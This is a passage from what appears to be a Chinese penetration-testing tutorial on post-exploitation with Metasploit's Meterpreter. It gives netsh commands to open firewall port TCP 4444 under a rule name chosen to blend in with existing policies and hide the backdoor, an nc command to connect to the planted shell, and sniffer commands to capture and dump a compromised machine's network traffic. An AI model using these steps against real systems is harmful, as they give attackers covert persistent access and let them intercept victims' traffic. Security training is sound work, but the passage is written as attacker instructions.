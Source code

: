 查看防火墙的状态

```
netsh firewall show opmode 

```

增加一条允许策略

```
 netsh firewall add portopening TCP 4444 "test" ENABLE ALL 
  //关于名称test可以设置为一个具有隐蔽性的名称，可以从防火墙的策略中摘取名称，
  达到掩饰目的

```

连接shell

```
nc 192.168.1.7 444

```

其他注册表选项<br/>
[其他注册表选项](https://support.accessdata.com/hc/en-us/articles/204448155-Registry-Quick-Find-Chart)

#### <a id="sniffer_390"/>sniffer抓包

当拿到一台电脑的shell的时候，可以启用抓包来对这台机器的流量经过进行抓包嗅探，过滤出对进一步渗透有用的信息。<br/>
首先，加载插件

```
 load sniffer 

```

选择抓包的接口

```
sniffer_interfaces

```

<img src="https://img-blog.csdnimg.cn/20200722214652575.png" alt=""/>

例如选择接口2进行抓包

```
 sniffer_start 2 

```

msf抓的包均在kali的一个缓冲区里，最多抓取50000个<br/>
<img src="https://img-blog.csdnimg.cn/20200722215900503.png" alt=""/><br/>
导出包

```
 sniffer_dump 3 1.cap 

```
